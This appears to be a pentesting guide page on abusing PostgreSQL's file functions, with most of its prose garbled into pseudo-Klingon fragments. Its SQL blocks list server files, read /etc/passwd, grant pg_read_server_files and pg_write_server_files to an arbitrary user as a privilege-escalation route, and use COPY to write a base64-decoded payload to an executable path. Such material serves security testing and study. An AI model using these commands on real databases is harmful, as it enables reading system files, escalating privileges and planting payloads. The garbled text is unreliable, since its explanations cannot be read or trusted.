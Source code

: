 **postgres vItlhutlh** **ghItlh** **ghItlh file** **list a directory** **vaj** **ghItlh** **users** **Superusers** **users explicit permissions** **vaj** **vItlhutlh** **vaj**:
```sql
# Before executing these function go to the postgres DB (not in the template1)
\c postgres
## If you don't do this, you might get "permission denied" error even if you have permission

select * from pg_ls_dir('/tmp');
select * from pg_read_file('/etc/passwd', 0, 1000000);
select * from pg_read_binary_file('/etc/passwd');

# Check who has permissions
\df+ pg_ls_dir
\df+ pg_read_file
\df+ pg_read_binary_file

# Try to grant permissions
GRANT EXECUTE ON function pg_catalog.pg_ls_dir(text) TO username;
# By default you can only access files in the datadirectory
SHOW data_directory;
# But if you are a member of the group pg_read_server_files
# You can access any file, anywhere
GRANT pg_read_server_files TO username;
# Check CREATEROLE privilege escalation
```
**more functions** jup [https://www.postgresql.org/docs/current/functions-admin.html](https://www.postgresql.org/docs/current/functions-admin.html)

### Simple File Writing

Only **super users** and members of **`pg_write_server_files`** can use copy to write files.

{% code overflow="wrap" %}
```sql
copy (select convert_from(decode('<ENCODED_PAYLOAD>','base64'),'utf-8')) to '/just/a/path.exec';
```
{% endcode %}

{% hint style="warning" %}
ghobe' 'ejwI'vam 'oH 'ej **`CREATEROLE`** permissions vaj 'oH, **ghobe' 'ejwI'vam** vItlhutlhla':
```sql
GRANT pg_write_server_files TO username;
```
[**More info.**](pentesting-postgresql.md#privilege-escalation-with-createrole)
{% endhint %}

**ghItlhlaH** COPY **newline chars** lo'laH, **base64 payload** **one-liner** **yInID**.\
**'ej** **technique** **'oH** **'ej** **`copy`** **binary files** **upload** **jatlh**:

{% content-ref url="../pentesting-web/sql-injection/postgresql-injection/big-binary-files-upload-postgresql.md" %}
[big-binary-files-upload-postgresql.md](../pentesting-web/sql-injection/postgresql-injection/big-binary-files-upload-postgresql.md)
{% endcontent-ref %}
